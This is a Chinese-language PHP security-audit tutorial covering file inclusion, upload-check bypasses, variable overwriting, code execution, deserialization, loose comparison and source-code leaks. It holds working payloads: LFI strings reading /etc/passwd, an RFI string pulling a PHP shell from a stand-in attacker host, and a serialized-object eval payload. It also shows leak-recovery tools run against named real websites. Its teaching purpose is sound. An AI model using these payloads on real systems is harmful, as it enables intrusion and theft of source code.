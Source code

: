 PHP 代码审计
============

文件包含
--------

常见的导致文件包含的函数有：

-  PHP：``include()``，``include_once()``，``require()``，``require_once()``，``fopen()``，``readfile()`` 等
-  JSP Servlet：``ava.io.File()``，``java.io.FileReader()`` 等
-  ASP：``includefile``，``includevirtual`` 等

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

本地文件包含
~~~~~~~~~~~~

本地文件包含，Local File Inclusion，LFI。

.. code-block:: php

    <?php
    $file = $_GET['file'];
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
      include '/home/wwwrun/'.$file.'.php';
    }
    ?>

上述代码存在本地文件包含，可用 %00 截断的方式读取 ``/etc/passwd`` 文件内容。

-  %00 截断

   ::

     ?file=../../../../../../../../../etc/passwd%00

   需要 ``magic_quotes_gpc=off``，PHP 小于 5.3.4 有效。

-  路径长度截断

   ::

     ?file=../../../../../../../../../etc/passwd/././././././.[…]/./././././.

   Linux 需要文件名长于 4096，Windows 需要长于 256。

-  点号截断

   ::

     ?file=../../../../../../../../../boot.ini/………[…]…………

   只适用 Windows，点号需要长于 256。

远程文件包含
~~~~~~~~~~~~

远程文件包含，Remote File Inclusion，RFI。

.. code-block:: php

    <?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }

构造变量 ``basePath`` 的值。

::

    /?basePath=http://attacker/phpshell.txt?

最终的代码执行了

.. code-block:: php

    require_once "http://attacker/phpshell.txt?/action/m_share.php";

问号后的部分被解释为 URL 的 querystring，这也是一种「截断」。

-  普通远程文件包含

   ::
     
     ?file=[http|https|ftp]://example.com/shell.txt

   需要 ``allow_url_fopen=On`` 并且 ``allow_url_include=On`` 。

-  利用 PHP 流 input

   ::

     ?file=php://input

   需要 ``allow_url_include=On`` 。

-  利用 PHP 流 filter

   ::

     ?file=php://filter/convert.base64-encode/resource=index.php

   需要 ``allow_url_include=On`` 。

-  利用 data URIs

   ::

     ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=

   需要 ``allow_url_include=On`` 。

-  利用 XSS 执行

   ::

     ?file=http://127.0.0.1/path/xss.php?xss=phpcode

   需要 ``allow_url_fopen=On``，``allow_url_include=On`` 并且防火墙或者白名单不允许访问外网时，先在同站点找一个 XSS 漏洞，包含这个页面，就可以注入恶意代码了。

文件上传
--------

文件上传漏洞是指用户上传了一个可执行脚本文件，并通过此文件获得了执行服器端命令的能力。在大多数情况下，文件上传漏洞一般是指上传 WEB 脚本能够被服务器解析的问题，也就是所谓的 webshell 问题。完成这一攻击需要这样几个条件，一是上传的文件能够这 WEB 容器执行，其次用户能从 WEB 上访问这个文件，最后，如果上传的文件被安全检查、格式化、图片压缩等功能改变了内容，则可能导致攻击失败。

绕过上传检查
~~~~~~~~~~~~

-  前端检查扩展名

   抓包绕过即可。

-  ``Content-Type`` 检测文件类型

   抓包修改 ``Content-Type`` 类型，使其符合白名单规则。

-  服务端添加后缀

   尝试 %00 截断。

-  服务端扩展名检测

   利用解析漏洞。

-  Apache 解析

   ``phpshell.php.rar.rar.rar.rar`` 因为 Apache 不认识 ``.rar`` 这个文件类型，所以会一直遍历后缀到 ``.php``，然后认为这是一个 PHP 文件。

-  IIS 解析

   IIS 6 下当文件名为 ``abc.asp;xx.jpg`` 时，会将其解析为 ``abc.asp``。

-  PHP CGI 路径解析

   当访问 ``http://www.a.com/path/test.jpg/notexist.php`` 时，会将 ``test.jpg`` 当做 PHP 解析， ``notexist.php`` 是不存在的文件。此时 Nginx 的配置如下

   .. code-block:: nginx

       location ~ \.php$ {
         root html;
         fastcgi_pass 127.0.0.1:9000;
         fastcgi_index index.php;
         fastcgi_param SCRIPT_FILENAME /scripts$fastcgi_script_name;
         include fastcgi_param;
       }

-  其他方式

   后缀大小写、双写、特殊后缀如 ``php5`` 等，修改包内容的大小写过 WAF 等。

变量覆盖
--------

全局变量覆盖
~~~~~~~~~~~~

变量如果未被初始化，且能够用户所控制，那么很可能会导致安全问题。

.. code-block:: ini

    register_globals=ON

示例

.. code-block:: php

    <?php
    echo "Register_globals: " . (int)ini_get("register_globals") . "<br/>";

    if ($auth) {
      echo "private!";
    }
    ?>

当 ``register_globals=ON`` 时，提交 ``test.php?auth=1``，``auth`` 变量将自动得到赋值。

``extract()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~

``extract()`` 函数能够将变量从数组导入到当前的符号表，其定义为

::

    int extract ( array $var_array [, int $extract_type [, string $prefix ]] )

其中，第二个参数指定函数将变量导入符号表时的行为，最常见的两个值是 ``EXTR_OVERWRITE`` 和 ``EXTR_SKIP``。

当值为 ``EXTR_OVERWRITE`` 时，在将变量导入符号表的过程中，如果变量名发生冲突，则覆盖所有变量；值为 ``EXTR_SKIP`` 则表示跳过不覆盖。若第二个参数未指定，则在默认情况下使用 ``EXTR_OVERWRITE``。

.. code-block:: php

    <?php
    $auth = "0";
    extract($_GET);

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

当 ``extract()`` 函数从用户可以控制的数组中导出变量时，可能发生变量覆盖。

``import_request_variables`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

    bool import_request_variables (string $types [, string $prefix])

``import_request_variables`` 将 GET、POST、Cookies 中的变量导入到全局，使用这个函数只用简单地指定类型即可。

.. code-block:: php

    <?php
    $auth = "0";
    import_request_variables("G");

    if ($auth == 1) {
      echo "private!";
    } else {
      echo "public!";
    }
    ?>

``import_request_variables("G")`` 指定导入 GET 请求中的变量，提交 ``test.php?auth=1`` 出现变量覆盖。

``parse_str()`` 变量覆盖
~~~~~~~~~~~~~~~~~~~~~~~~

::

    void parse_str ( string $str [, array &$arr ])

``parse_str()`` 函数通常用于解析 URL 中的 querystring，但是当参数值可以被用户控制时，很可能导致变量覆盖。

.. code-block:: php

    // var.php?var=new  变量覆盖
    $var = "init";
    parse_str($_SERVER["QUERY_STRING"]);
    print $var;

与 ``parse_str()`` 类似的函数还有 ``mb_parse_str()``。

命令执行
--------

直接执行代码
~~~~~~~~~~~~

PHP 中有不少可以直接执行代码的函数。

.. code-block:: php

    eval();
    assert();
    system();
    exec();
    shell_exec();
    passthru();
    escapeshellcmd();
    pcntl_exec();
    ......

``preg_replace()`` 代码执行
~~~~~~~~~~~~~~~~~~~~~~~~~~~

``preg_replace()`` 的第一个参数如果存在 ``/e`` 模式修饰符，则允许代码执行。

.. code-block:: php

    <?php
    $var = "<tag>phpinfo()</tag>";
    preg_replace("/<tag>(.*?)<\/tag>/e", "addslashes(\\1)", $var);
    ?>

如果没有 ``/e`` 修饰符，可以尝试 %00 截断。

动态函数执行
~~~~~~~~~~~~

用户自定义的函数可以导致代码执行。

.. code-block:: php

    <?php
    $dyn_func = $_GET["dyn_func"];
    $argument = $_GET["argument"];
    $dyn_func($argument);
    ?>

反引号命令执行
~~~~~~~~~~~~~~

.. code-block:: php

    <?php
    echo `ls -al`;
    ?>

Curly Syntax
~~~~~~~~~~~~

PHP 的 Curly Syntax 也能导致代码执行，它将执行花括号间的代码，并将结果替换回去。

.. code-block:: php

    <?php
    $var = "aaabbbccc ${`ls`}";
    ?>

.. code-block:: php

    <?php
    $foobar = "phpinfo";
    ${"foobar"}();
    ?>

回调函数
~~~~~~~~

很多函数都可以执行回调函数，当回调函数用户可控时，将导致代码执行。

.. code-block:: php

    <?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
    ?>

攻击 payload

::

    http://www.a.com/index.php?callback=phpinfo

反序列化
~~~~~~~~

如果 ``unserialize()`` 在执行时定义了 ``__destruct()`` 或 ``__wakeup()`` 函数，则有可能导致代码执行。

.. code-block:: php

    <?php
    class Example {
      var $var = "";
      function __destruct() {
        eval($this->$var);
      }
    }
    unserialize($_GET["saved_code"]);
    ?>

攻击 payload

::

    http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}

PHP 特性
--------

数组
~~~~

.. code-block:: php

    <?php
    $var = 1;
    $var = array();
    $var = "string";
    ?>

php 不会严格检验传入的变量类型，也可以将变量自由的转换类型。

比如在 ``$a == $b`` 的比较中

::

    $a = null; 
    $b = false; //为真 
    $a = ''; 
    $b = 0; //同样为真

然而，PHP 内核的开发者原本是想让程序员借由这种不需要声明的体系，更加高效的开发，所以在几乎所有内置函数以及基本结构中使用了很多松散的比较和转换，防止程序中的变量因为程序员的不规范而频繁的报错，然而这却带来了安全问题。

.. code-block:: php

    0=='0' //true
    0 == 'abcdefg' //true
    0 === 'abcdefg' //false
    1 == '1abcdef' //true

魔法 Hash
~~~~~~~~~

.. code-block:: php

    "0e132456789"=="0e7124511451155" //true
    "0e123456abc"=="0e1dddada" //false
    "0e1abc"=="0"  //true

在进行比较运算时，如果遇到了 ``0e\d+`` 这种字符串，就会将这种字符串解析为科学计数法。所以上面例子中 2 个数的值都是 0 因而就相等了。如果不满足 ``0e\d+`` 这种模式就不会相等。

十六进制转换
~~~~~~~~~~~~

.. code-block:: php

    "0x1e240"=="123456" //true
    "0x1e240"==123456 //true
    "0x1e240"=="1e240" //false

当其中的一个字符串是 ``0x`` 开头的时候，PHP 会将此字符串解析成为十进制然后再进行比较，``0x1240`` 解析成为十进制就是 123456，所以与 ``int`` 类型和 ``string`` 类型的 123456 比较都是相等。

类型转换
~~~~~~~~

常见的转换主要就是 ``int`` 转换为 ``string``，``string`` 转换为 ``int``。

``int`` 转 ``string``

.. code-block:: php

    $var = 5;
    方式1：$item = (string)$var;
    方式2：$item = strval($var);

``string`` 转 ``int``：``intval()`` 函数。

对于这个函数，可以先看 2 个例子。

.. code-block:: php

    var_dump(intval('2')) //2
    var_dump(intval('3abcd')) //3
    var_dump(intval('abcd')) //0

说明 ``intval()`` 转换的时候，会将从字符串的开始进行转换知道遇到一个非数字的字符。即使出现无法转换的字符串， ``intval()`` 不会报错而是返回 0。

同时，程序员在编程的时候也不应该使用如下的这段代码：

.. code-block:: php

    if(intval($a)>1000) {
     mysql_query("select * from news where id=".$a)
    }

这个时候 ``$a`` 的值有可能是 ``1002 union``。

内置函数的参数的松散性
~~~~~~~~~~~~~~~~~~~~~~

内置函数的松散性说的是，调用函数时给函数传递函数无法接受的参数类型。解释起来有点拗口，还是直接通过实际的例子来说明问题，下面会重点介绍几个这种函数。

**md5()**

.. code-block:: php

    $array1[] = array(
     "foo" => "bar",
     "bar" => "foo",
    );
    $array2 = array("foo", "bar", "hello", "world");
    var_dump(md5($array1)==var_dump($array2)); //true

PHP 手册中的 md5（）函数的描述是 ``string md5 ( string $str [, bool $raw_output = false ] )``，``md5()`` 中的需要是一个 string 类型的参数。但是当你传递一个 array 时，``md5()`` 不会报错，只是会无法正确地求出 array 的 md5 值，这样就会导致任意 2 个 array 的 md5 值都会相等。

**strcmp()**

``strcmp()`` 函数在 PHP 官方手册中的描述是 ``intstrcmp ( string $str1 ， string $str2 )``，需要给 ``strcmp()`` 传递 2 个 ``string`` 类型的参数。如果 ``str1`` 小于 ``str2``，返回 -1，相等返回 0，否则返回 1。``strcmp()`` 函数比较字符串的本质是将两个变量转换为 ASCII，然后进行减法运算，然后根据运算结果来决定返回值。

如果传入给出 ``strcmp()`` 的参数是数字呢？

.. code-block:: php

    $array=[1,2,3];
    var_dump(strcmp($array,'123')); //null,在某种意义上null也就是相当于false。

**switch()**

如果 ``switch()`` 是数字类型的 case 的判断时，switch
会将其中的参数转换为 int 类型。如下：

.. code-block:: php

    $i ="2abc";
    switch ($i) {
    case 0:
    case 1:
    case 2:
     echo "i is less than 3 but not negative";
     break;
    case 3:
     echo "i is 3";
    }

这个时候程序输出的是 ``i is less than 3 but not negative`` ，是由于 ``switch()`` 函数将 ``$i`` 进行了类型转换，转换结果为
2。

**in\_array()**

在 PHP
手册中， ``in_array()`` 函数的解释是 ``bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )``
,如果strict参数没有提供，那么in\_array就会使用松散比较来判断 ``$needle`` 是否在 ``$haystack`` 中。当
strince 的值为 true 时， ``in_array()`` 会比较 needls 的类型和
haystack 中的类型是否相同。

.. code-block:: php

    $array=[0,1,2,'3'];
    var_dump(in_array('abc', $array)); //true
    var_dump(in_array('1bc', $array)); //true

可以看到上面的情况返回的都是 true，因为 ``'abc'`` 会转换为
0， ``'1bc'`` 转换为 1。

``array_search()`` 与 ``in_array()`` 也是一样的问题。

寻找源代码备份
--------------

hg 源码泄露
~~~~~~~~~~~

``hg init`` 时会产生 ``.hg`` 文件。

`利用工具 dvcs-ripper <https://github.com/kost/dvcs-ripper>`_

Git 源码泄露
~~~~~~~~~~~~

``.git`` 目录内有代码的变更记录等文件，如果部署时该目录下的文件可被访问，可能会被利用来恢复源代码。

::

    /.git
    /.git/HEAD
    /.git/index
    /.git/config
    /.git/description

`GitHack <https://github.com/lijiejie/GitHack>`_

.. code-block:: shell

    python GitHack.py http://www.openssl.org/.git/

`GitHacker（可恢复完整 Git 仓库） <https://github.com/WangYihang/GitHacker>`_

.. code-block:: shell

    python GitHacker.py http://www.openssl.org/.git/

``.DS_Store`` 文件泄露
~~~~~~~~~~~~~~~~~~~~~~

Mac OS 中会包含有 ``.DS_Store`` 文件，包含文件名等信息。

`利用工具 ds＿store＿exp <https://github.com/lijiejie/ds_store_exp>`_

.. code-block:: shell

    python ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

    hd.zj.qq.com/
    └── themes
        └── galaxyw
            ├── app
            │   └── css
            │       └── style.min.css
            ├── cityData.min.js
            ├── images
            │   └── img
            │       ├── bg-hd.png
            │       ├── bg-item-activity.png
            │       ├── bg-masker-pop.png
            │       ├── btn-bm.png
            │       ├── btn-login-qq.png
            │       ├── btn-login-wx.png
            │       ├── ico-add-pic.png
            │       ├── ico-address.png
            │       ├── ico-bm.png
            │       ├── ico-duration-time.png
            │       ├── ico-pop-close.png
            │       ├── ico-right-top-delete.png
            │       ├── page-login-hd.png
            │       ├── pic-masker.png
            │       └── ticket-selected.png
            └── member
                ├── assets
                │   ├── css
                │   │   ├── ace-reset.css
                │   │   └── antd.css
                │   └── lib
                │       ├── cityData.min.js
                │       └── ueditor
                │           ├── index.html
                │           ├── lang
                │           │   └── zh-cn
                │           │       ├── images
                │           │       │   ├── copy.png
                │           │       │   ├── localimage.png
                │           │       │   ├── music.png
                │           │       │   └── upload.png
                │           │       └── zh-cn.js
                │           ├── php
                │           │   ├── action_crawler.php
                │           │   ├── action_list.php
                │           │   ├── action_upload.php
                │           │   ├── config.json
                │           │   ├── controller.php
                │           │   └── Uploader.class.php
                │           ├── ueditor.all.js
                │           ├── ueditor.all.min.js
                │           ├── ueditor.config.js
                │           ├── ueditor.parse.js
                │           └── ueditor.parse.min.js
                └── static
                    ├── css
                    │   └── page.css
                    ├── img
                    │   ├── bg-table-title.png
                    │   ├── bg-tab-say.png
                    │   ├── ico-black-disabled.png
                    │   ├── ico-black-enabled.png
                    │   ├── ico-coorption-person.png
                    │   ├── ico-miss-person.png
                    │   ├── ico-mr-person.png
                    │   ├── ico-white-disabled.png
                    │   └── ico-white-enabled.png
                    └── scripts
                        ├── js
                        └── lib
                            └── jquery.min.js

    21 directories, 48 files

网站备份文件
~~~~~~~~~~~~

管理员备份网站文件后错误地将备份放在 Web 目录下。

常见的后缀名：

::

    .rar
    .zip
    .7z
    .tar
    .tar.gz
    .bak
    .txt

SVN 泄露
~~~~~~~~

敏感文件：

::

    /.svn
    /.svn/wc.db
    /.svn/entries

`dvcs-ripper <https://github.com/kost/dvcs-ripper>`_

.. code-block:: shell

    perl rip-svn.pl -v -u http://www.example.com/.svn/

`Seay - SVN <http://tools.40huo.cn/#!web.md#源码泄露>`_

WEB-INF / web.xml 泄露
~~~~~~~~~~~~~~~~~~~~~~

WEB-INF 是 Java Web 应用的安全目录，web.xml 中有文件的映射关系。

WEB-INF 主要包含一下文件或目录：

-  ``/WEB-INF/web.xml`` ：Web 应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
-  ``/WEB-INF/classes/`` ：含了站点所有用的 class 文件，包括 servlet class 和非 servlet class，他们不能包含在。jar 文件中。
-  ``/WEB-INF/lib/`` ：存放 web 应用需要的各种 JAR 文件，放置仅在这个应用中要求使用的 jar 文件，如数据库驱动 jar 文件。
-  ``/WEB-INF/src/`` ：源码目录，按照包名结构放置各个 java 文件。
-  ``/WEB-INF/database.properties`` ：数据库配置文件。

通过找到 web.xml 文件，推断 class 文件的路径，最后直接 class 文件，在通过反编译 class 文件，得到网站源码。 一般情况，jsp 引擎默认都是禁止访问 WEB-INF 目录的，Nginx 配合 Tomcat 做均衡负载或集群等情况时，问题原因其实很简单，Nginx 不会去考虑配置其他类型引擎（Nginx 不是 jsp 引擎）导致的安全问题而引入到自身的安全规范中来（这样耦合性太高了），修改 Nginx 配置文件禁止访问 WEB-INF 目录就好了：

.. code-block:: nginx

    location ~ ^/WEB-INF/* { deny all; } # 或者return 404; 或者其他！

CVS 泄露
~~~~~~~~

::

    http://url/CVS/Root 返回根信息
    http://url/CVS/Entries 返回所有文件的结构

取回源码

.. code-block:: shell

    bk clone http://url/name dir
